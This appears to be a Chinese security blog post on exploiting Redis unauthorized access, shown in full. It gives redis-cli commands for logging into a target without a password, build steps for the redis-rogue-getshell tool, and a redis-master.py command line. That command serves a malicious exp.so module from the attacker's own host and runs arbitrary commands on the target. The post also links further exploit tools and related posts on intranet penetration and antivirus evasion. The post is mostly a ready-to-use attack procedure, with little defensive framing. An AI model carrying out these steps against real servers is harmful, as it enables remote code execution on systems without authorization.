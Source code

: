     使用 redis-cli 命令直接远程免密登录 redis 主机

```
# 无密码登录命令
redis-cli -h 目标主机IP
# 有密码登录命令
redis-cli -h 目标主机IP -p 端口6379 -a 登录密码
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUa46YWpg5qbJCl7IrsTr8ST0GcMQtia8DTB53o393oDMmtlVw6AkSk0OQ/640?wx_fmt=png)

    如果可以连接说明存在未授权访问漏洞

**linux 安装 redis-getShell 工具**

```
git clone https://github.com/vulhub/redis-rogue-getshell.git
cd RedisModulesSDK/
make
//克隆成功后使用cd命令切换到RedisModulesSDK 使用 make 命令进行编译，编译后回到 redis-rogue-getshell/ 目录下
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUauiaUWmFoamrZwpbp5iaecyCSoqq32eeibOxanMJ8xpZOoJwFH31WrdMkQ/640?wx_fmt=png)

    利用此工具进行 getshell，执行任意命令

```
# 工具命令格式：
python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "要执行的命令"
# 工具命令示例：
python3 redis-master.py -r 192.168.126.130 -p 6379 -L 192.168.126.128 -P 8888 -f RedisModulesSDK/exp.so -c "whoami"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaiaATKGIsD80ALeVhouX82bfs5g3jaC97PtfN8ictGrh6yhhJu9qiaQ5Bw/640?wx_fmt=png)

**利用工具下载地址** (https://github.com/n0b0dyCN/redis-rogue-server)

**最后贴一个未授权访问漏洞的利用工具** (下载地址: https://github.com/joaomatosf/jexboss/archive/master.zip)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUa8PuaayXrVMIAQHia6VCUgrddyqiarbjt0ZAKSXXfQ8ysbAIvSmLbEs6g/640?wx_fmt=png)

****【往期推荐】****  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - Shellcode Loader 原理 (python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - 分离 + 混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  
